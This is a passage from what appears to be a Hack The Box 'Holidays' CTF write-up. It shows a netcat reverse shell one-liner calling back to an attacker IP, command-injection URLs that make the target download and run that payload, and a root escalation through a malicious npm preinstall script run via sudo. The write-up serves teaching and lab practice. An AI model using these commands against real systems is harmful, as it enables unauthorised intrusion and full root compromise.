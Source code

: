 {% highlight bash linenos %}
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
{% endhighlight %}

Armed with this information, we can create a file named `rs` with the reverse shell payload content above (Note that the IP has to be changed to the IP of your computer). We place this in the web server root of the Python web server started earlier. We then start a listener by executing the command `nc -lvnp 9000` and visit the two URLs below while logged in as an administrator. This downloads and executes the `rs` file on the target host. Note that `%26` is the URL encoded representation of the ampersand character `&`.

{% highlight none linenos %}
http://10.10.10.25:8000/admin/export?table=x%26wget+168431129/rs
http://10.10.10.25:8000/admin/export?table=x%26bash+rs
{% endhighlight %}

Once these two URLs have been visited, the netcat listener receives a connection from the target and we are greeted with a bash prompt, as can be seen below.

![rce](/assets/2021-10-30-HTB-Holidays-Source-Code-Analysis/rce.png)

The next step is to perform a privilege escalation to get code execution as `root`. The privilege escalation can be performed by abusing sudo rights on npm. By executing `sudo -l`, it is possible to see the line `(ALL) NOPASSWD: /usr/bin/npm i *` which means that we can install arbitrary NodeJS packages with root privileges. This could be dangerous as it is possible install a NodeJS package which executes a set of bash commands before the installation process begins. 

To create such a package, we execute the command `mkdir privescPackage` and create a file named "package.json" in the newly created directory `privescPackage`. We then fill the `package.json` file with the content below. At line 5 to 7, we define a preinstall script which states that the command `/bin/bash -i` should be executed before the installation begins. Note that we won't need to create the main file `index.js`, defined on line 4, since the payload should be executed before the installation. 

{% highlight json linenos %}
{
  "name": "privescPackage",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "preinstall": "/bin/bash -i"
  }
}
{% endhighlight %}

Next, we simply attempt to install the package using the command `sudo npm i privescPackage --unsafe`. Shortly after executing the command, we acquire a shell on the target in the context of the `root` user, as can be seen in the image below
